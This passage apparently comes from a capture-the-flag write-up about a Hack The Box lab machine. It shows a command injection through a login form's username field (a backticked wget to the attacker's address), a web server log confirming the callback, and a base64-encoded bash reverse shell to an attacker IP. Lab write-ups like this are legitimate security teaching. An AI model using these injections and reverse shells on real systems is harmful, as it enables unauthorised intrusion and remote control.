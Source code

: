 ![Forward to Login](/assets/images/2024/01/Sau/ForwardToLogin.png "Forward to Login")

I tried running `id`, but it only replied with 'Login failed', so I did not know if it worked. I tried sending a request to my machine.


```http
POST /rg7my1z HTTP/1.1
Host: target.htb:55555
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: null
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Referer: http://target.htb:55555/web/j4gxx67
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

username=;`wget+10.10.14.48`
```

I got a hit on my web server.

```bash
$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.98.107 - - [30/Sep/2023 10:02:44] "GET / HTTP/1.1" 200 -
```

I knew I had code execution. I created a payload to start a reverse shell, making sure I did not have any special characters in it.

```bash
$ echo 'bash  -i >& /dev/tcp/10.10.14.48/4444 0>&1  ' | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNDgvNDQ0NCAwPiYxICAK
```
